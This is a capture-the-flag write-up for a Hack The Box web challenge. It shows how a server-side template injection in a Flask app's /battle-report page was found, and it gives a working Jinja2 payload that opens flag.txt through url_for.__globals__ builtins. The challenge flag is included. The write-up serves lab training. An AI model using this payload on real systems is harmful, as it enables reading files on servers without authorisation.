 ![image](https://github.com/user-attachments/assets/183ffdf6-66a1-4ed1-8899-1ddcd9a26a65)## Trial by Fire

Category: Web  

## Challenge
Website with warrior name input.  
Found 3 main parts:
- Home page (input warrior name)  
- /flamedrake (show status)  
- /battle-report (after battle action)

Checked for SSTI by inputting
```
{{7*7}}
```
Output still showed `{{7*7}}` (escaped).

Found hidden button using DevTools (CTRL + F → search "leet").  
Clue appeared:
![image](https://github.com/user-attachments/assets/0038997c-6d0a-4c46-b834-377e607e51cb)

```
{{ url_for.globals }}
```

## Solution
After analyzing source, found:
- /flamedrake uses `render_template()` → safe  
- /battle-report uses `render_template_string()` + f-string → vulnerable  

So SSTI only works in `/battle-report`.

Final Payload:
```jinja2
{{ url_for.__globals__['__builtins__']['open']('flag.txt').read() }}
```

- POST to `/begin` with warrior_name = payload
![image](https://github.com/user-attachments/assets/2cf3f09b-0c64-4b02-bec4-e5d99f277a50)

- Trigger `/battle-report`

![image](https://github.com/user-attachments/assets/bf24535a-f708-436c-964d-c8fc2d896532)

```
HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_ab21d35eb28870ad67229305ddfd57dc}
```
